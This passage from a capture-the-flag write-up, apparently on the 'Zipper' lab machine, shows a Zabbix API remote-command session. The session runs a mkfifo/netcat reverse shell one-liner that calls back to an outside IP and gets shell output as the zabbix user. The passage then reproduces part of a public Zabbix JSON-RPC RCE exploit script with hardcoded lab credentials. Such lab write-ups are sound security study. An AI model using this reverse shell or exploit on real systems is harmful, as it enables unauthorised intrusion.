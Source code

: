 Now I can continue after a command like a shell:

```

[zipper_cmd]>>:  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443>/tmp/f
[-] Unexpected data:
{u'jsonrpc': u'2.0', u'id': 0, u'error': {u'message': u'Application error.', u'code': -32500, u'data': u'Timeout while executing a shell script.'}}                                                                        
[zipper_cmd]>>:  id
uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)

```

I could go beyond this as well. For example, I could create a command `shell` much like I did with `host` that automatically runs the reverse shell to get a callback. I could have it take an ip and port. I’ll leave that as an exercise for the reader.

### Conclusion

At first I thought it was sloppy on the shell’s author to not include the `execute_on` parameter. But I suspect in their eyes the Zabbix server was a juicier target. So if they had included it, they would have defaulted to running on the server anyway.

It will say it was nicely done on Zipper’s author’s part to have it set to default running on the wrong host, as it makes us as players have to figure out what’s going on and not just use the scripts on the internet.

### Code

Here’s my final script:

```

  1 #!/usr/bin/env python
  2 # -*- coding: utf-8 -*-
  3 
  4 # Exploit Title: Zabbix RCE with API JSON-RPC
  5 # Date: 06-06-2016
  6 # Exploit Author: Alexander Gurin
  7 # Vendor Homepage: http://www.zabbix.com
  8 # Software Link: http://www.zabbix.com/download.php
  9 # Version: 2.2 - 3.0.3
 10 # Tested on: Linux (Debian, CentOS)
 11 # CVE : N/A
 12 
 13 import requests
 14 import json
 15 import readline
 16 
 17 ZABIX_ROOT = 'http://10.10.10.108/zabbix'       ### Zabbix IP-address
 18 url = ZABIX_ROOT + '/api_jsonrpc.php'   ### Don't edit
 19 
 20 login = 'zapper'                ### Zabbix login
 21 password = 'zapper'     ### Zabbix password
 22 hostid = '10106'        ### Zabbix hostid
 23 hosts = ['zipper', 'zabbix']
 24 
 25 def set_host(host):
 26 
 27     global execute_on
 28 
 29     if host.lower() == 'zipper':
 30         execute_on = 0
 31     elif host.lower() == 'zabbix':
 32         execute_on = 1
```